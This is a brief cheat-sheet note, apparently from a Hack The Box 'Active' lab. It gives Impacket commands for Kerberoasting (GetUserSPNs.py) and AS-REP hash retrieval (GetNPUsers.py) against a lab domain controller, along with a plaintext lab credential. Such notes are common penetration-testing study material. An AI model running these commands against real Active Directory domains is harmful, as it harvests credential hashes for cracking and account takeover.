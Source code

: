 --> Kerberost open kerbs to pull hashes!!
--> you need a user account password to do this!!!
--> Also not this might not always work, try multiple times and if it still doesn't work give it like 10 min and try again!!!

```
python GetUserSPNs.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```


--> With this you could enmurate domain user names if you have credentials, or if you have a user list of guessed username

```
GetNPUsers.py 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request -format hashcat -outputfile test
```



